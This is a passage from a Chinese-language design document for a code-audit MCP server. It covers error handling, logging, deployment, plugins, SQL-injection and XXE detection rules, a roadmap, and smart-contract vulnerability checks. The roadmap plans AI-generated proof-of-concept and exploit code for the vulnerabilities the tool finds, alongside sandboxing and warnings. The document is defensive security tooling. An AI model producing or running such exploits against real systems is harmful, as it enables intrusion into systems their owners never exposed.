        if self.timestamp is None:
            self.timestamp = datetime.now()
        if self.stack_trace is None:
            self.stack_trace = traceback.format_exc()
```

#### 10.1.2 错误处理策略

**策略矩阵**：

| 错误类型 | 严重程度 | 处理策略 | 重试 | 降级 | 用户通知 |
|---------|---------|---------|------|------|---------|
| AST解析失败 | Error | 跳过该文件，继续 | ❌ | ✅ | ✅ |
| 索引损坏 | Critical | 重建索引 | ✅ (1次) | ✅ | ✅ |
| 污点分析超时 | Warning | 终止分析，返回部分结果 | ❌ | ✅ | ✅ |
| 数据库连接失败 | Critical | 指数退避重试 | ✅ (3次) | ❌ | ✅ |
| 内存不足 | Fatal | 终止服务 | ❌ | ❌ | ✅ |
| gRPC不可用 | Critical | 重启Go服务 | ✅ (3次) | ✅ | ✅ |
| AI模型失败 | Error | 切换备用模型 | ✅ (2次) | ✅ | ⚠️ |
| 向量存储不可用 | Warning | 禁用语义搜索 | ✅ (3次) | ✅ | ⚠️ |

**实现示例**：

```go
// Go端错误处理
type ErrorHandler struct {
    logger *zap.Logger
    metrics *MetricsCollector
}

func (h *ErrorHandler) Handle(err *CodeAuditError, ctx context.Context) error {
    // 1. 记录错误
    h.logError(err)
    
    // 2. 收集指标
    h.metrics.RecordError(err.Type, err.Severity)
    
    // 3. 执行恢复策略
    switch err.Type {
    case ErrorTypeParseFailed:
        return h.handleParseFailed(err, ctx)
    case ErrorTypeIndexCorrupted:
        return h.handleIndexCorrupted(err, ctx)
    case ErrorTypeGRPCUnavailable:
        return h.handleGRPCUnavailable(err, ctx)
    case ErrorTypeOutOfMemory:
        return h.handleOutOfMemory(err, ctx)
    default:
        return h.handleGeneric(err, ctx)
    }
}

func (h *ErrorHandler) handleParseFailed(err *CodeAuditError, ctx context.Context) error {
    // 策略：跳过该文件，记录警告，继续处理
    h.logger.Warn("Parse failed, skipping file",
        zap.String("file", err.Details["file"].(string)),
        zap.Error(err))
    
    // 返回nil，允许继续
    return nil
}

func (h *ErrorHandler) handleIndexCorrupted(err *CodeAuditError, ctx context.Context) error {
    // 策略：尝试重建索引
    h.logger.Error("Index corrupted, attempting rebuild",
        zap.String("project_id", err.Details["project_id"].(string)))
    
    projectID := err.Details["project_id"].(string)
    
    // 重试一次重建
    if err := h.rebuildIndex(projectID); err != nil {
        return fmt.Errorf("failed to rebuild index: %w", err)
    }
    
    return nil
}

func (h *ErrorHandler) handleGRPCUnavailable(err *CodeAuditError, ctx context.Context) error {
    // 策略：指数退避重试
    maxRetries := 3
    backoff := time.Second
    
    for i := 0; i < maxRetries; i++ {
        h.logger.Info("Retrying gRPC operation",
            zap.Int("attempt", i+1),
            zap.Duration("backoff", backoff))
        
        time.Sleep(backoff)
        
        // 尝试重新连接
        if err := h.reconnectGRPC(); err == nil {
            return nil
        }
        
        backoff *= 2  // 指数退避
    }
    
    return fmt.Errorf("gRPC unavailable after %d retries", maxRetries)
}
```

```python
# Python端错误处理
class ErrorHandler:
    def __init__(self, logger, metrics):
        self.logger = logger
        self.metrics = metrics
        self.error_strategies = self._init_strategies()
    
    def _init_strategies(self):
        return {
            ErrorType.MODEL_API_FAILED: self._handle_model_failed,
            ErrorType.MODEL_RATE_LIMITED: self._handle_rate_limited,
            ErrorType.VECTOR_STORE_UNAVAILABLE: self._handle_vector_store_unavailable,
            ErrorType.POC_GENERATION_FAILED: self._handle_poc_generation_failed,
        }
    
    async def handle(self, error: CodeAuditError) -> Optional[Any]:
        """统一错误处理入口"""
        # 1. 记录错误
        self._log_error(error)
        
        # 2. 收集指标
        self.metrics.record_error(error.error_type, error.severity)
        
        # 3. 执行恢复策略
        strategy = self.error_strategies.get(error.error_type)
        if strategy:
            return await strategy(error)
        else:
            return await self._handle_generic(error)
    
    async def _handle_model_failed(self, error: CodeAuditError):
        """AI模型失败：切换备用模型"""
        self.logger.warning(f"Primary model failed, switching to backup: {error.message}")
        
        primary_model = error.details.get("model")
        backup_models = ["gpt-4", "claude-3-sonnet", "gemini-pro"]
        
        # 移除失败的模型
        if primary_model in backup_models:
            backup_models.remove(primary_model)
        
        # 尝试备用模型
        for model in backup_models:
            try:
                result = await self._retry_with_model(
                    error.details.get("request"),
                    model
                )
                self.logger.info(f"Successfully switched to {model}")
                return result
            except Exception as e:
                self.logger.warning(f"Backup model {model} also failed: {e}")
                continue
        
        # 所有模型都失败
        raise Exception("All AI models failed")
    
    async def _handle_rate_limited(self, error: CodeAuditError):
        """速率限制：指数退避重试"""
        max_retries = 3
        backoff = 1
        
        for i in range(max_retries):
            wait_time = backoff * (2 ** i)
            self.logger.info(f"Rate limited, waiting {wait_time}s before retry {i+1}/{max_retries}")
            
            await asyncio.sleep(wait_time)
            
            try:
                return await self._retry_request(error.details.get("request"))
            except Exception as e:
                if i == max_retries - 1:
                    raise e
        
    async def _handle_vector_store_unavailable(self, error: CodeAuditError):
        """向量存储不可用：降级到基础搜索"""
        self.logger.warning("Vector store unavailable, degrading to basic search")
        
        # 返回降级标记
        return {
            "degraded": True,
            "reason": "vector_store_unavailable",
            "fallback_method": "basic_text_search"
        }
```

### 10.2 日志策略

#### 10.2.1 日志级别和内容

**日志级别定义**：

```go
// Go端日志配置
func initLogger() *zap.Logger {
    config := zap.NewProductionConfig()
    config.Level = zap.NewAtomicLevelAt(zap.InfoLevel)
    
    // 自定义编码器
    config.EncoderConfig.TimeKey = "timestamp"
    config.EncoderConfig.EncodeTime = zapcore.ISO8601TimeEncoder
    
    // 输出到文件和控制台
    config.OutputPaths = []string{
        "stdout",
        "/var/log/code-audit/go-service.log",
    }
    
    logger, _ := config.Build()
    return logger
}

// 结构化日志示例
logger.Info("AST parsing completed",
    zap.String("project_id", projectID),
    zap.Int("files_processed", fileCount),
    zap.Duration("duration", duration),
    zap.Int("errors", errorCount))
```

**日志分类**：

| 类别 | 级别 | 内容 | 示例 |
|------|------|------|------|
| 性能日志 | Info | 操作耗时、资源使用 | `AST parsing took 2.3s, memory: 500MB` |
| 错误日志 | Error | 错误详情、堆栈 | `Parse failed: syntax error at line 42` |
| 审计日志 | Info | 用户操作、安全事件 | `User scanned project: /path/to/project` |
| 调试日志 | Debug | 详细执行流程 | `Entering taint analysis for method X` |
| 指标日志 | Info | 统计数据 | `Total vulnerabilities found: 12 (high: 3)` |

#### 10.2.2 日志格式示例

```json
{
  "timestamp": "2025-01-19T10:30:45.123Z",
  "level": "ERROR",
  "component": "TaintAnalyzer",
  "error_type": "TAINT_ANALYSIS_FAILED",
  "severity": "error",
  "message": "Taint analysis timed out",
  "details": {
    "project_id": "proj_12345",
    "method": "com.example.UserService.query",
    "timeout": "60s",
    "nodes_analyzed": 1523
  },
  "stack_trace": "...",
  "recoverable": true,
  "action_taken": "partial_results_returned"
}
```

### 10.3 安全考虑

#### 10.3.1 输入验证

- 验证所有MCP工具输入参数
- 防止路径遍历攻击
- 限制文件大小和数量
- 验证正则表达式防止ReDoS

#### 10.3.2 权限控制

- 限制文件系统访问范围
- 隔离不同项目的数据
- 审计日志记录所有操作

#### 10.3.3 代码执行安全

- 沙箱环境执行POC验证
- 禁止自动执行生成的EXP
- 明确的安全警告和免责声明

#### 10.3.4 数据保护

- 敏感信息脱敏
- 加密存储CVE数据库凭证
- 安全删除临时文件

---

## 11. 测试策略

### 11.1 单元测试

- 每个核心组件独立测试
- Mock外部依赖
- 覆盖率目标: 80%+

### 11.2 集成测试

- AST解析器与索引管理器集成
- 污点分析与调用链分析集成
- MCP服务器端到端测试

### 11.3 漏洞检测测试

- 准备标准测试用例（WebGoat、DVWA等）
- 验证检测准确率
- 测试误报率和漏报率
- 性能基准测试

### 11.4 语言和框架测试

- 每种支持的语言至少10个测试项目
- 每种框架至少5个测试用例
- 真实开源项目测试

---

## 12. 部署方案

### 12.1 项目结构

```
code-audit-mcp/
├── python/                      # Python MCP Server
│   ├── codeaudit/
│   │   ├── __init__.py
│   │   ├── server.py           # MCP Server主入口
│   │   ├── go_service_manager.py  # Go服务管理
│   │   ├── grpc_client.py      # gRPC客户端封装
│   │   ├── ai_services/
│   │   │   ├── __init__.py
│   │   │   ├── semantic_search.py   # 语义搜索
│   │   │   ├── validation.py        # 多模型验证
│   │   │   ├── poc_generator.py     # POC生成器
│   │   │   ├── exp_generator.py     # EXP生成器
│   │   │   ├── model_integration.py # AI模型集成
│   │   │   └── cve_service.py       # CVE查询
│   │   ├── tools/              # MCP工具实现
│   │   │   ├── __init__.py
│   │   │   ├── search_tools.py
│   │   │   ├── analysis_tools.py
│   │   │   └── generation_tools.py
│   │   └── proto/              # 生成的protobuf代码
│   │       ├── code_analysis_pb2.py
│   │       └── code_analysis_pb2_grpc.py
│   ├── tests/
│   ├── requirements.txt
│   └── setup.py
│
├── go/                         # Go后端服务
│   ├── cmd/
│   │   └── server/
│   │       └── main.go         # Go gRPC Server入口
│   ├── internal/
│   │   ├── ast/
│   │   │   ├── parser.go       # AST解析器
│   │   │   └── languages/      # 语言适配器
│   │   ├── index/
│   │   │   ├── manager.go      # 索引管理器
│   │   │   └── storage.go      # 存储层
│   │   ├── analysis/
│   │   │   ├── taint.go        # 污点分析
│   │   │   ├── callgraph.go    # 调用图
│   │   │   └── dependency.go   # 依赖分析
│   │   ├── services/           # gRPC服务实现
│   │   │   ├── code_analysis.go
│   │   │   └── handler.go
│   │   └── models/             # 数据模型
│   ├── proto/                  # Protobuf定义
│   │   └── code_analysis.proto
│   ├── tests/
│   ├── go.mod
│   └── go.sum
│
├── proto/                      # 共享Protobuf定义
│   └── code_analysis.proto
│
├── configs/
│   ├── config.yaml             # 主配置文件
│   └── rules/                  # 检测规则
│       ├── owasp_top10.yaml
│       └── cwe_top25.yaml
│
├── scripts/
│   ├── build.sh                # 构建脚本
│   ├── install.sh              # 安装脚本
│   └── generate_proto.sh       # 生成protobuf代码
│
├── docs/
│   ├── design.md
│   ├── requirements.md
│   └── api.md
│
├── .github/
│   └── workflows/
│       ├── build.yml
│       └── test.yml
│
├── Makefile
├── README.md
└── LICENSE
```

### 12.2 部署模式

**模式1: MCP服务器模式（推荐）**
```
用户 <-> Claude Desktop <-> Python MCP Server <-> Go Backend Service
```
- Python MCP Server通过stdio与Claude Desktop通信
- Python启动并管理Go服务进程
- 适用于日常开发和安全审计工作

**模式2: 独立CLI模式**
```
用户 <-> Python CLI <-> Go Backend Service
```
- 提供命令行工具进行批量审计
- 适用于CI/CD集成

**模式3: HTTP API模式（可选）**
```
用户 <-> Web UI <-> Python HTTP Server <-> Go Backend Service
```
- 提供Web界面和REST API
- 适用于团队协作和集中管理

### 12.3 安装方式

#### 方式1: 使用安装脚本（推荐）

```bash
# 克隆项目
git clone https://github.com/example/code-audit-mcp.git
cd code-audit-mcp

# 运行安装脚本
./scripts/install.sh

# 脚本会自动：
# 1. 安装Python依赖
# 2. 编译Go服务
# 3. 生成protobuf代码
# 4. 配置环境变量
```

#### 方式2: 手动安装

```bash
# 1. 安装Python依赖
cd python
pip install -r requirements.txt
pip install -e .

# 2. 生成Protobuf代码
cd ../
./scripts/generate_proto.sh

# 3. 编译Go服务
cd go
go build -o ../bin/code-audit-go ./cmd/server

# 4. 验证安装
python -m codeaudit.server --version
./bin/code-audit-go version
```

#### 方式3: 使用Docker

```bash
# 构建镜像
docker build -t code-audit-mcp .

# 运行MCP服务器
docker run -it \
  -v ~/.config/claude:/root/.config/claude \
  -v /path/to/project:/workspace \
  -e ANTHROPIC_API_KEY=$ANTHROPIC_API_KEY \
  code-audit-mcp
```

#### 方式4: 发布包（生产环境）

```bash
# Python包
pip install code-audit-mcp

# Go二进制（自动下载）
code-audit-mcp install-backend

# 或手动下载
curl -L https://github.com/example/code-audit-mcp/releases/download/v1.0.0/code-audit-go-linux-amd64 \
  -o ~/.code-audit/bin/code-audit-go
chmod +x ~/.code-audit/bin/code-audit-go
```

### 12.3 配置文件

```yaml
# config.yaml
server:
  mode: mcp  # mcp, cli, http
  log_level: info
  
languages:
  - java
  - python
  - javascript
  - php
  - go

rules:
  enabled_rulesets:
    - owasp_top10
    - cwe_top25
  custom_rules_path: ./rules/custom

analysis:
  max_depth: 15
  enable_reflection_tracking: true
  enable_async_tracking: true
  enable_multimodel_validation: true

models:
  claude:
    api_key: ${ANTHROPIC_API_KEY}
    model: claude-3-sonnet-20240229
  openai:
    api_key: ${OPENAI_API_KEY}
    model: gpt-4-turbo-preview

storage:
  database: sqlite # sqlite, postgres
  database_path: ~/.code-audit/data.db
  cache_enabled: true
  cache_path: ~/.code-audit/cache

semantic_search:
  enabled: true
  embedding_model: code-bert-base
  vector_db: qdrant
  qdrant_url: http://localhost:6333
```

---

## 13. 监控和日志

### 13.1 日志级别

- **DEBUG**: 详细的调试信息
- **INFO**: 常规操作信息
- **WARN**: 警告信息（非致命错误）
- **ERROR**: 错误信息
- **FATAL**: 致命错误

### 13.2 日志内容

```json
{
  "timestamp": "2025-01-19T10:30:00Z",
  "level": "INFO",
  "component": "AuditEngine",
  "action": "scan_started",
  "project_id": "proj_001",
  "details": {
    "path": "/path/to/project",
    "files": 150,
    "languages": ["java", "javascript"]
  }
}
```

### 13.3 性能指标

- 扫描速度（文件/秒）
- AST解析时间
- 污点分析时间
- 内存使用量
- 缓存命中率

---

## 14. 扩展性设计

### 14.1 插件系统（详细实现）

#### 14.1.1 插件接口定义

```go
// 插件接口
type Plugin interface {
    Name() string
    Version() string
    Initialize(config map[string]interface{}) error
    Execute(context *PluginContext) (*PluginResult, error)
    Cleanup() error
}

// 插件类型
type PluginType int

const (
    PluginTypeLanguage  PluginType = iota  // 语言适配器插件
    PluginTypeFramework                    // 框架适配器插件
    PluginTypeRule                         // 检测规则插件
    PluginTypeReporter                     // 报告生成插件
    PluginTypeDecompiler                   // 反编译器插件
)

// 插件上下文
type PluginContext struct {
    ProjectID   string
    Config      map[string]interface{}
    Logger      *zap.Logger
    IndexAccess IndexAccessor
    DataAccess  DataAccessor
}

// 插件结果
type PluginResult struct {
    Success bool
    Data    interface{}
    Error   error
    Metrics map[string]interface{}
}

// 插件元数据
type PluginInfo struct {
    Name        string
    Version     string
    Author      string
    Description string
    Type        PluginType
    Enabled     bool
}
```

#### 14.1.2 语言适配器插件示例

```go
// Rust语言适配器插件
package rust_adapter

type RustLanguagePlugin struct {
    parser     *RustParser
    config     map[string]interface{}
    logger     *zap.Logger
}

func (p *RustLanguagePlugin) Name() string {
    return "rust-language-adapter"
}

func (p *RustLanguagePlugin) Version() string {
    return "1.0.0"
}

func (p *RustLanguagePlugin) Initialize(config map[string]interface{}) error {
    p.config = config
    p.logger = zap.L().With(zap.String("plugin", p.Name()))
    
    // 初始化Rust解析器
    p.parser = NewRustParser()
    
    p.logger.Info("Rust language plugin initialized")
    return nil
}

func (p *RustLanguagePlugin) Execute(ctx *PluginContext) (*PluginResult, error) {
    // 解析Rust代码
    ast, err := p.parser.Parse(ctx.Config["source"].(string))
    if err != nil {
        return &PluginResult{
            Success: false,
            Error:   err,
        }, err
    }
    
    // 提取类和方法信息
    structs := p.extractStructs(ast)
    functions := p.extractFunctions(ast)
    
    return &PluginResult{
        Success: true,
        Data: map[string]interface{}{
            "structs":   structs,
            "functions": functions,
        },
        Metrics: map[string]interface{}{
            "structs_count":   len(structs),
            "functions_count": len(functions),
        },
    }, nil
}

func (p *RustLanguagePlugin) extractStructs(ast *RustAST) []StructInfo {
    var structs []StructInfo
    
    // 遍历AST提取struct定义
    ast.Walk(func(node *ASTNode) bool {
        if node.Type == "struct_item" {
            structs = append(structs, StructInfo{
                Name:   node.GetName(),
                Fields: p.extractFields(node),
                // ...
            })
        }
        return true
    })
    
    return structs
}

func (p *RustLanguagePlugin) Cleanup() error {
    p.logger.Info("Rust language plugin cleaned up")
    return nil
}

// 导出插件（Go plugin模式）
var Plugin RustLanguagePlugin
```

#### 14.1.3 检测规则插件示例

```python
# Python规则插件示例
from codeaudit.plugin import RulePlugin, Vulnerability

class CustomSQLiRule(RulePlugin):
    """自定义SQL注入检测规则"""
    
    def name(self) -> str:
        return "custom-sqli-detection"
    
    def version(self) -> str:
        return "1.0.0"
    
    def initialize(self, config: dict) -> bool:
        """初始化插件"""
        self.patterns = config.get("patterns", [])
        self.severity = config.get("severity", "high")
        return True
    
    def execute(self, context) -> list:
        """执行检测"""
        vulnerabilities = []
        
        # 获取所有方法
        methods = context.index_access.search_methods("*")
        
        for method in methods:
            # 获取方法代码
            code = context.data_access.get_code(
                method.file_path,
                method.start_line,
                method.end_line
            )
            
            # 自定义检测逻辑
            if self.detect_sqli(code, method):
                vuln = Vulnerability(
                    type="SQL_INJECTION",
                    severity=self.severity,
                    location=method.location,
                    description=f"Custom SQLi detected in {method.name}",
                    confidence=0.85
                )
                vulnerabilities.append(vuln)
        
        return vulnerabilities
    
    def detect_sqli(self, code: str, method) -> bool:
        """自定义SQL注入检测逻辑"""
        # 检查是否使用字符串拼接构建SQL
        dangerous_patterns = [
            r'\"SELECT .* FROM .* WHERE .* = \' \+ ',
            r'String\.format\(\".*%s.*\", .*\)',
        ]
        
        import re
        for pattern in dangerous_patterns:
            if re.search(pattern, code):
                return True
        
        return False
    
    def cleanup(self):
        """清理资源"""
        pass

# 注册插件
plugin = CustomSQLiRule()
```

#### 14.1.4 插件管理器

```go
type PluginManager struct {
    plugins map[string]Plugin
    types   map[PluginType][]string
    mu      sync.RWMutex
    loader  PluginLoader
}

func NewPluginManager() *PluginManager {
    return &PluginManager{
        plugins: make(map[string]Plugin),
        types:   make(map[PluginType][]string),
        loader:  NewGoPluginLoader(),
    }
}

func (m *PluginManager) RegisterPlugin(plugin Plugin, pluginType PluginType) error {
    m.mu.Lock()
    defer m.mu.Unlock()
    
    name := plugin.Name()
    
    if _, exists := m.plugins[name]; exists {
        return fmt.Errorf("plugin %s already registered", name)
    }
    
    m.plugins[name] = plugin
    m.types[pluginType] = append(m.types[pluginType], name)
    
    log.Info("Plugin registered",
        zap.String("name", name),
        zap.String("version", plugin.Version()))
    
    return nil
}

func (m *PluginManager) LoadPlugin(path string) (Plugin, error) {
    return m.loader.Load(path)
}

func (m *PluginManager) ExecutePlugins(pluginType PluginType, ctx *PluginContext) ([]*PluginResult, error) {
    m.mu.RLock()
    defer m.mu.RUnlock()
    
    pluginNames := m.types[pluginType]
    results := make([]*PluginResult, 0, len(pluginNames))
    
    for _, name := range pluginNames {
        plugin := m.plugins[name]
        
        result, err := plugin.Execute(ctx)
        if err != nil {
            log.Error("Plugin execution failed",
                zap.String("plugin", name),
                zap.Error(err))
            continue
        }
        
        results = append(results, result)
    }
    
    return results, nil
}

func (m *PluginManager) ListPlugins() []PluginInfo {
    m.mu.RLock()
    defer m.mu.RUnlock()
    
    infos := make([]PluginInfo, 0, len(m.plugins))
    for name, plugin := range m.plugins {
        infos = append(infos, PluginInfo{
            Name:    name,
            Version: plugin.Version(),
        })
    }
    
    return infos
}

func (m *PluginManager) UnloadPlugin(name string) error {
    m.mu.Lock()
    defer m.mu.Unlock()
    
    plugin, exists := m.plugins[name]
    if !exists {
        return fmt.Errorf("plugin %s not found", name)
    }
    
    // 清理插件资源
    if err := plugin.Cleanup(); err != nil {
        return err
    }
    
    delete(m.plugins, name)
    
    // 从类型映射中移除
    for pluginType, names := range m.types {
        for i, n := range names {
            if n == name {
                m.types[pluginType] = append(names[:i], names[i+1:]...)
                break
            }
        }
    }
    
    return nil
}
```

#### 14.1.5 插件配置示例

```yaml
# plugins.yaml
plugins:
  - name: rust-language-adapter
    type: language
    enabled: true
    path: ./plugins/rust_adapter.so
    config:
      file_extensions: [".rs"]
      
  - name: custom-sqli-rule
    type: rule
    enabled: true
    path: ./plugins/custom_sqli_rule.py
    config:
      severity: high
      patterns:
        - "SELECT .* WHERE .* = '"
        
  - name: pdf-reporter
    type: reporter
    enabled: false
    path: ./plugins/pdf_reporter.so
    config:
      template: ./templates/report.html
      logo: ./assets/logo.png
```

### 14.2 自定义规则

用户可以通过JSON/YAML定义自定义检测规则：

```yaml
# custom_rule.yaml
rule:
  id: custom_001
  name: "不安全的XML解析"
  description: "检测不安全的XML解析器配置"
  vulnerability_type: XXE
  severity: high
  language: java
  
  pattern:
    type: ast
    source:
      - pattern: |
          DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
      - not:
          pattern: |
            factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    
    sink:
      - pattern: |
          factory.newDocumentBuilder().parse($INPUT)
  
  fix_suggestion: |
    设置XML解析器安全特性：
    factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

### 14.3 API扩展

提供REST API以支持外部系统集成：

```
POST /api/v1/scan
GET /api/v1/projects/{project_id}
GET /api/v1/vulnerabilities/{vuln_id}
POST /api/v1/poc/generate
GET /api/v1/reports/{report_id}
```

---

## 15. 实现路线图

### Phase 1: 核心基础 (2-3个月)

**Go端开发**：
- [ ] 项目结构搭建和依赖配置
- [ ] Protobuf接口定义（code_analysis.proto）
- [ ] gRPC服务器框架搭建
- [ ] AST解析器实现（go-tree-sitter集成）
  - [ ] Java语言支持
  - [ ] Python语言支持
- [ ] 代码索引系统
  - [ ] 数据库Schema设计
  - [ ] 索引构建逻辑
  - [ ] 索引查询接口（类、方法、字段）
- [ ] 基础gRPC服务实现
  - [ ] ParseProject
  - [ ] BuildIndex
  - [ ] SearchClass
  - [ ] SearchMethod

**Python端开发**：
- [ ] 项目结构搭建和依赖配置（mcp SDK）
- [ ] Go服务管理器（启动、停止、健康检查）
- [ ] gRPC客户端封装（重试、超时、错误处理）
- [ ] MCP Server框架搭建
- [ ] 基础MCP工具实现
  - [ ] search_class
  - [ ] search_method
  - [ ] search_field
  - [ ] query_inheritance
- [ ] 配置管理和环境变量处理

**集成与测试**：
- [ ] Python-Go通信测试
- [ ] MCP工具端到端测试
- [ ] 单元测试（Go和Python各自）
- [ ] Claude Desktop集成测试

**交付物**：
- 可运行的MCP服务器，支持基础代码查询功能
- 完整的测试套件
- 开发文档

---

### Phase 2: 漏洞检测 (2-3个月)

**Go端开发**：
- [ ] 调用链分析器
  - [ ] 调用图构建
  - [ ] 调用链查询（callers、callees）
  - [ ] 路径搜索算法
- [ ] 污点分析引擎
  - [ ] Source识别（HTTP请求、文件输入等）
  - [ ] Sink识别（SQL执行、命令执行等）
  - [ ] 函数级污点传播追踪
  - [ ] 污点路径验证
- [ ] 代码提取服务
  - [ ] 提取漏洞链路代码
  - [ ] 代码高亮和注释
- [ ] 性能优化（并行处理、缓存）

**Python端开发**：
- [ ] AI模型集成框架
  - [ ] Claude API集成
  - [ ] OpenAI API集成
  - [ ] 本地模型（Ollama）集成
- [ ] 多模型验证引擎
  - [ ] Self-RAG实现
  - [ ] 多模型投票机制
  - [ ] 置信度计算
- [ ] 基础检测规则配置
  - [ ] SQL注入规则
  - [ ] XSS规则
  - [ ] 命令注入规则
- [ ] MCP工具实现
  - [ ] scan_vulnerabilities
  - [ ] trace_sink
  - [ ] analyze_call_chain
  - [ ] extract_chain_code
- [ ] 报告生成系统（JSON、Markdown、HTML）

**集成与测试**：
- [ ] 污点分析准确性测试
- [ ] 多模型验证效果测试
- [ ] 误报率和漏报率评估
- [ ] 性能基准测试

**交付物**：
- 完整的漏洞检测功能
- 多模型验证系统
- 漏洞报告生成

---

### Phase 3: 高级功能 (2-3个月)

**Go端开发**：
- [ ] 多语言支持扩展
  - [ ] JavaScript/TypeScript
  - [ ] PHP
  - [ ] Go
- [ ] 框架适配器
  - [ ] Spring/Spring Boot（Java）
  - [ ] Django（Python）
  - [ ] Express.js（Node.js）
  - [ ] Laravel（PHP）
- [ ] 依赖分析器
  - [ ] 依赖关系提取
  - [ ] 依赖图构建
- [ ] 反编译器集成
  - [ ] JAR文件反编译（fernflower）
  - [ ] APK反编译（jadx）

**Python端开发**：
- [ ] 语义检索系统
  - [ ] txtai集成
  - [ ] 代码向量化
  - [ ] 向量索引构建
  - [ ] 语义搜索接口
- [ ] POC生成器
  - [ ] 基于AI的POC代码生成
  - [ ] 多语言POC模板
  - [ ] POC验证
- [ ] EXP生成器
  - [ ] 基于AI的EXP代码生成
  - [ ] 安全警告生成
- [ ] CVE查询服务
  - [ ] NVD数据库集成
  - [ ] 历史漏洞匹配
  - [ ] 相似度计算
- [ ] MCP工具实现
  - [ ] semantic_search
  - [ ] generate_poc
  - [ ] generate_exp
  - [ ] query_cve

**集成与测试**：
- [ ] 多语言项目测试
- [ ] 框架特定漏洞检测测试
- [ ] 语义搜索质量评估
- [ ] POC/EXP生成质量评估

**交付物**：
- 多语言和框架支持
- AI驱动的POC/EXP生成
- 语义代码搜索

---

### Phase 4: 增强和优化 (1-2个月)

**Go端开发**：
- [ ] 性能优化
  - [ ] 并发优化
  - [ ] 内存优化
  - [ ] 增量分析优化
- [ ] 更多语言适配器（C/C++、Rust等）
- [ ] ORM框架适配（MyBatis、Hibernate等）
- [ ] 模板引擎适配（Thymeleaf、Jinja2等）

**Python端开发**：
- [ ] 高级规则引擎
  - [ ] ML规则生成
  - [ ] 规则学习和优化
- [ ] 漏洞模式学习
  - [ ] 从历史漏洞学习
  - [ ] 模式识别和分类
- [ ] 高级依赖分析
  - [ ] 供应链攻击检测
  - [ ] 许可证合规检查
- [ ] 插件系统设计

**文档和测试**：
- [ ] API文档完善
- [ ] 用户手册编写
- [ ] 开发者文档
- [ ] 完整测试覆盖（目标80%+）
- [ ] 真实项目测试（WebGoat、DVWA等）

**交付物**：
- 性能优化的系统
- 完善的文档
- 高质量的测试

---

### Phase 5: 生产就绪 (1个月)

**系统加固**：
- [ ] 安全加固
  - [ ] 输入验证
  - [ ] 权限控制
  - [ ] 沙箱执行
- [ ] 错误处理完善
- [ ] 日志和监控系统
- [ ] 配置管理优化

**部署和发布**：
- [ ] Docker镜像构建
- [ ] 自动化构建脚本
- [ ] 安装程序
- [ ] PyPI包发布
- [ ] GitHub Releases发布
- [ ] 持续集成/持续部署（CI/CD）

**文档和支持**：
- [ ] 安装指南
- [ ] 快速开始指南
- [ ] 故障排除文档
- [ ] 贡献指南
- [ ] 社区支持渠道

**交付物**：
- v1.0.0正式版本
- 完整的部署包
- 生产级文档

---

### 开发资源估算

| Phase | Go开发 | Python开发 | 测试 | 总计 |
|-------|--------|-----------|------|------|
| Phase 1 | 4周 | 4周 | 2周 | 10周 |
| Phase 2 | 5周 | 5周 | 2周 | 12周 |
| Phase 3 | 6周 | 6周 | 3周 | 15周 |
| Phase 4 | 3周 | 3周 | 2周 | 8周 |
| Phase 5 | 1周 | 1周 | 2周 | 4周 |
| **总计** | **19周** | **19周** | **11周** | **49周** |

建议团队配置：
- 2名Go开发工程师
- 2名Python开发工程师
- 1名测试工程师
- 1名技术负责人（兼架构设计）

实际时间：约**7-8个月**（考虑并行开发和迭代）

---

## 16. 风险和挑战

### 16.1 技术风险

| 风险 | 影响 | 缓解措施 |
|------|------|---------|
| AST解析准确性 | 高 | 充分测试、使用成熟的tree-sitter |
| 误报率过高 | 高 | 多模型验证、持续优化规则 |
| 性能问题 | 中 | 索引缓存、并行处理、增量更新 |
| 多语言支持复杂度 | 中 | 模块化设计、逐步支持 |

### 16.2 业务风险

| 风险 | 影响 | 缓解措施 |
|------|------|---------|
| 用户接受度 | 中 | 提供详细文档、示例、社区支持 |
| 竞品竞争 | 中 | 突出AI集成、MCP协议优势 |
| 维护成本 | 中 | 自动化测试、清晰的代码架构 |

---

## 17. 参考资料

### 17.1 标准和规范

- [Model Context Protocol (MCP) Specification](https://modelcontextprotocol.io/)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [CWE Top 25](https://cwe.mitre.org/top25/)
- [JSON-RPC 2.0 Specification](https://www.jsonrpc.org/specification)

### 17.2 技术文档

- [Tree-sitter Documentation](https://tree-sitter.github.io/)
- [Go Programming Language](https://golang.org/doc/)
- [txtai Documentation](https://neuml.github.io/txtai/)

### 17.3 研究论文

- "Taint Analysis for Android Applications" - Security研究
- "Code Property Graphs for Static Analysis" - 代码分析技术
- "Self-RAG: Learning to Retrieve, Generate, and Critique" - AI验证

---

## 17. 区块链智能合约安全审计（创新亮点）

### 17.1 背景和目标

随着区块链技术的快速发展，智能合约安全问题日益凸显。本系统扩展支持Solidity、Vyper等智能合约语言的安全审计，填补传统代码审计工具在区块链领域的空白。

### 17.2 支持的智能合约语言

| 语言 | 版本支持 | 主要平台 |
|------|---------|---------|
| Solidity | 0.8.x | Ethereum, BSC, Polygon |
| Vyper | 0.3.x | Ethereum |
| Move | Latest | Aptos, Sui |

### 17.3 智能合约特有漏洞检测

#### 17.3.1 漏洞类型

**经典漏洞**：
1. **重入攻击 (Reentrancy)**
   - 检测未遵循Checks-Effects-Interactions模式
   - 识别外部调用后的状态变更
   
2. **整数溢出/下溢**
   - 检测未使用SafeMath的算术运算
   - Solidity 0.8.x版本的溢出检查验证

3. **权限控制缺陷**
   - 检测缺少onlyOwner等权限修饰符
   - 识别任意用户可调用的敏感函数

4. **未检查的返回值**
   - 检测低级调用(call, delegatecall)的返回值
   - 识别转账函数的返回值处理

5. **拒绝服务 (DoS)**
   - 检测循环中的外部调用
   - 识别无限循环风险

6. **前端运行攻击 (Front-running)**
   - 识别价格敏感的交易
   - 检测缺少滑点保护

7. **时间戳依赖**
   - 检测依赖block.timestamp的随机数生成
   - 识别时间敏感的业务逻辑

8. **委托调用风险**
   - 检测delegatecall的目标地址
   - 识别存储槽冲突风险

####17.3.2 检测规则示例

```solidity
// 重入攻击检测规则
rule "reentrancy-detection" {
    pattern {
        // 查找外部调用
        external_call: call_expression {
            callee: member_expression {
                object: _
                property: ["call", "transfer", "send"]
            }
        }
        
        // 外部调用后有状态变更
        state_change: assignment_expression {
            // 位于外部调用之后
            follows: external_call
            // 修改状态变量
            left: state_variable
        }
    }
    
    severity: "critical"
    message: "Potential reentrancy vulnerability"
